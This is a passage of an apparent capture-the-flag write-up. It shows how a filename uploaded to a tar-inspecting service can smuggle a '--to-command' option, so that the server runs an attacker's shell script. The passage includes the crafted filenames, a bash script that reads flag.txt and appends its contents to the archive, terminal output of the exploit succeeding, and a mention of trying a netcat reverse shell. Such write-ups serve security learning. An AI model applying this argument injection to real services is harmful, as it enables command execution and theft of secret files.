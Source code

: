Hm, it says it cannot find test.tar. If we look at our input, it thinks that the filename is test.tar because there is a space after it. 
Let's add an * to the end of test so that it will look for any file starting with test, and call tar on it. 
This will allow tar to grab the whole file while keeping spaces in the name

`test* --to-command=cat test.txt .tar`

&nbsp;


### Important realizations

Also, at this point I realized cat wasn't going to work. 
The only thing the tar inspector shows is the filenames. 
So I had to either reverse shell in, or add the flag to my tar file.

I tried netcat, and got it to run without errors since the execution would pause while the netcat connection was running, bypassing whatever small errors were happening at the end of the tar input.
However, I asked the admin and he told me that netcat was not installed on their instance. Netcat wasn't going to work.

The only otion at this point was to add the flag to my own tar file through a bash script.

&nbsp;

Here was my initial bash script

`append.sh`
```
var=$( cat flag.txt )
touch $var
tar -rvf exploit* $var
```

Here's what it does
1. Stores the contents of flag.txt into a variable
2. Creates a file named the contents of flag.txt (which is the flag)
3. Adds this file to my own tar file. (The only file starting with exploit in their directory would be my tar file, so I pattern match the name)

&nbsp;

&nbsp;



**Okay, let's get back to crafting the exploit with our new train of thought**

&nbsp;



`exploit* --to-command=sh append.sh .tar`

Hopefully this will execute my bash script. Let's run it


```
└─▪ python3 function.py exploit\*\ --to-command\=sh\ append.sh\ .tar 
File changed to new filename

tar -xvf exploit* --to-command=sh append.sh __5786af.tar
append.sh
utctf{flag}
tar: __5786af.tar: Not found in archive
tar: Exiting with failure status due to previous errors
File change back to old name
```
It ran and added the flag to the tar file!
